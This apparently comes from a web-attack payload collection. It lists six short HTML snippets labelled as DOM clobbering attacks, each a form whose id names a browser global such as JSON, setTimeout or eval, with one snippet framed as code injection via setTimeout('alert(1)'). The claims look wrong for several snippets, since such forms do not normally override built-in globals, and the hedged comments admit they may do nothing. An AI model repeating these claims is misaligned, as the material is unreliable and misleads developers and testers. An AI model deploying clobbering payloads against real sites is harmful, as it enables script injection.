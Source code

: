 ### Hijack JSON object
```html
<form id="JSON"></form>
<script>
try {
  JSON.stringify({}); // Throws
} catch (e) {
  console.log('JSON hijacked');
}
</script>
```

### Clobber screen.width
```html
<form id="screen"></form>
<script>
console.log(screen.width); // Accesses form
</script>
```

### Chain with navigator Clobbering
```html
<form id="navigator"></form>
<script>
console.log(navigator.language); // navigator is no longer valid
</script>
```

### Clobber setTimeout for Code Injection
```html
<form id="setTimeout"></form>
<script>
try {
  setTimeout('alert(1)', 1000); // Error or hijacked
} catch(e) { console.log('setTimeout hijacked'); }
</script>
```

### Override eval Reference
```html
<form id="eval"></form>
<script>
eval('alert("test")'); // Fails or does nothing
</script>
```

### Clobber document.all
```html
<form id="all"></form>
<script>
console.log(document.all); // Undefined or overridden
</script>
```
